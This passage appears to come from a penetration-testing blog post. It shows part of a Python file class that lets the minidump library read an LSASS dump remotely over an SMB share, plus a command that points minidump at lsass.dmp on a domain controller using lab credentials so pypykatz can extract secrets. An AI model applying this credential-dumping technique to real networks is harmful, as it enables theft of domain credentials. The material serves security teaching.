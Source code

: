 	    """
	    Move offset pointer
	    """
	    def seek(self, offset, whence=0):
	        if whence == 0:
	            self.__currentOffset = offset

	    """
	    Return current offset
	    """
	    def tell(self):
	        return self.__currentOffset

So we have our new class which authenticates on a network share, and can read a remote file with the methods mentioned. If we tell minidump to use this class instead of the classic `open` method, then minidump will read remote content without flinching.

[![](../_resources/238f9b8de70f4230340b2fdd4084f979.png)](https://en.hackndo.com/assets/uploads/2019/11/minidump_patched.png)

	minidump adsec.local/jsnow:Winter_is_coming_\!@DC01.adsec.local:/C$/Windows/Temp/lsass.dmp

In the same way, since pypykatz is using minidump, it can analyze the remote dump without downloading it completely.

[![](../_resources/79da635b53ab030c75cf409fd1c7de42.png)](https://en.hackndo.com/assets/uploads/2019/11/pypykatz_patched.png)
